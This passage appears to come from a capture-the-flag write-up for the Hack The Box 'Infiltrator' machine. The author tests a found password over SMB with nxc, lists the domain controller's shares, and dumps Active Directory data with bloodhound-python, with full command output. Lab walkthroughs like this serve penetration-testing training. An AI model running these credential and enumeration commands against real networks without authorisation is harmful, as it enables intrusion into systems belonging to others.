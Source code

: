 Wow, thats great to see. Let's try those credentials out with SMB:

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ nxc smb dc01.infiltrator.htb -u l.clark -p 'WAT?watismypass!' --shares
SMB         10.129.119.60   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.119.60   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.119.60   445    DC01             [*] Enumerated shares
SMB         10.129.119.60   445    DC01             Share           Permissions     Remark
SMB         10.129.119.60   445    DC01             -----           -----------     ------
SMB         10.129.119.60   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.119.60   445    DC01             C$                              Default share
SMB         10.129.119.60   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.119.60   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.119.60   445    DC01             SYSVOL          READ            Logon server share 
```
{% endcode %}

As expected, he does not have much access. But he can still query ldap, so let's go ahead and dump some bloodhound data:

```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ bloodhound-python -d infiltrator.htb -u l.clark -p 'WAT?watismypass!' -dc dc01.infiltrator.htb -c all --zip -ns 10.129.119.60 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
INFO: Done in 00M 07S
INFO: Compressing output into 20250513213011_bloodhound.zip
```

Unfortunately, this user does not seem to increase our access:

<figure><img src=".gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>
